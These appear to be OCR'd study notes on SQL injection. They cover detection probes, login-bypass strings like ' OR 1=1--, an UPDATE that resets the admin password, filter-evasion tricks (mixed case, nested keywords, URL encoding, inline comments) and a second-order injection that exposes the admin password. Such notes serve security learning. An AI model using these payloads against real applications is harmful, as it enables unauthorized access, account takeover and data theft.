 # Injecting Code

## Into Interpreted Language
Attackers' input gets passed directly to the interpreter and runs as if it’s legit code.  
- Depends upon the language targeted.  
- Programming technique employed by the application developer.  
- Supplying unexpected syntax may cause read errors → check for indication of code injection vulnerability.  

## Injecting Into SQL
- Databases are used by almost all web applications to store data like user details, prices, account statements, etc.  
- By editing certain commands or statements and using vulnerable web parts, we can read, update, add, and delete data in the database.  

## Retrieving Hidden Data
Check if SQL injection is possible or not:  
- Try single quotation or double quotation as input.  
- Try `--` → observe the response.  
- Try `%` → if the server is interacting with the back-end database, submitting `%` may return some table or data.  
- Try `' OR 1=1--` → will bypass any true statement check, as `1=1` is always true.  
- Try supplying a mathematical expression that is equivalent to the original numerical value.  

**Useful notes:**  
- Use ASCII commands and quotes.  
- Remember:  
  - spaces ⇔ `+` or `%20`  
  - `+` ⇔ `%2b`  
  - `;` ⇔ `%3b`  

## Bypassing a Login
Every login page is connected to the backend most of the time, where it checks for username and password. If they match, it lets you log in.  

- We can bypass this login check if we know a username.  
- Example:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'--' AND PASSWORD = 'FOO'
```
This is equivalent to:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'
```
⇒ This way, the password check has been bypassed altogether.  

- If you don’t know a username, you can use:  
```
USERNAME = ' OR 1=1--
```
- Since `1=1` is always true, this can bypass the check.  

## Subverting Application Logic
- Example: username = `wiener` and password = `bluecheese`.  
- This can be bypassed using:  
  - If you have a username like `administrator`, try:  
    ```
    administrator'--
    ```
  - If you don’t have a username, then try:  
    ```
    username = admin
    password = ' OR 1=1--
    ```  

## Injecting into Different Statement Types
The most common types of SQL statements are:  

- **SELECT**  
- **INSERT**  
  - Use this for finding table column size and type, e.g.:  
    ```
    foo')--
    foo',1)--
    foo',1,1)--
    ```  
- **UPDATE**  
  - Example of bypassing password check and resetting the password:  
    ```
    update users set password='newsecret' where user='admin' or 1=1
    ```  
- **DELETE**  
- **The UNION operator**  
- **Fingerprinting the database**  
- **Extracting useful data**  

**Notes:**  
- If you don’t know the data type of columns in a table, you can always use:  
  ```
  SELECT NULL
  ```
- Use trial-and-error to find table names, column types, and column names.  

### Techniques
- If the `SELECT` statement is blocked or removed, try:  
  ```
  SeLeCt
  SELSELECTECT
  %53%54%4C%45%43%54
  ```
- In MySQL, comments can be inserted within keywords to bypass validation, for example:  
  ```
  SEL /*FOO*/ECT username,password FR/*foo*/OM users
  ```
- If the defense filter escapes or doubles up a single quotation mark, you can bypass it with escape quotations. Example:  
  ```
  aaaa'
  ```

## Second Order SQL Injection
- An attacker can register a username containing crafted input and then attempt to change their password.  
- Example:  
  ```
  'or 1 in (select password from users where username='admin')--
  ```
- When the attacker tries to change their password, the injected query will be executed → Revealing the admin password.  

**Note:** Not every attack is about stealing information — some just want to destroy your system/device.

remeber to go further
